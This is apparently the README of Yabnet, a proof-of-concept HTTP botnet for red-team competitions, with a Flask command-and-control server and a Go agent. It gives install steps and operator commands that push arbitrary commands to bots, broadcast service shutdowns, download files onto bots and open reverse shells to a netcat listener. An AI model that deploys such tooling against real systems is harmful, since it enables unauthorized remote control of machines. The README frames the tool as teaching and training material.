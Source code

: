 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction - TODO 
-----------

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [ ] Support windows for agent 
- [ ] Clean up debugging codes in all files 
- [ ] Finalize and structure all in-code comments 
- [ ] Enhance README documentation and usage 
- [ ] Support communicating with PWNBOARD 


## Installation 

**Yabnet requires python3.7++ and GOLANG**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

Install Golang if it is not installed. 

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Components 

**Server and Agent**

`Server` = Python flask application inside Docker container 
`Agent` = Golang based static executable 

**Utility scripts** 

`/agent/generator.py` = Python script which creates agent golang file with specified server IP address and port number 
`/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH

## Installation 

### Server setup - Docker
```
cd /opt/yabnet/server
docker build -t yabnet .
docker run -e USER=<username> -e PASS=<password> -e MASTERKEY=<masterkey> -p 5000:5000 yabnet 

(example docker run -e USER=admin -e PASS=password -e MASTERKEY=masterkey -p 5000:5000 yabnet )
```

### Agent setup - Golang 

Generate the static executable using the `generator.py`
`python3 /opt/yabnet/agent/generator.py -i <serverip> -p <port> -f` 

Verfiy the executable was created 
`file /opt/yabnet/agent/agent`

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` to the target machine and run it.

Feel free to change the name of the executable. 

### Master setup

After server and the agent is setup, launch the master console.
Use the credential that was passed through the `docker run` command for the server. 

```
python3 ./master/master.py
yabnet# login -r localhost -u <user> -p <password>
yabnet# list
``` 

`< All master console commands have help flag>`
`Example) push -h`

## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1 -u admin -p password` |
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botip>,<botip> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botip> -f <server_file> -d <bot_filesystem_destination>` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botip> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots | `broadcast -c "systemctl stop ssh"` | 
| help | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 
`ex) push -t 10.0.1.1,10.0.2.1,10.0.3.1 -c "systemctl stop apache2"`
2. Reverse shell command requires the master to open a new console and setup a netcat listener. 
`ex) reverse -t 10.0.3.4 -p 31337` 
`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 
3. The server is hosting files in `/opt/yabnet/server/uploads/` directory. 

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
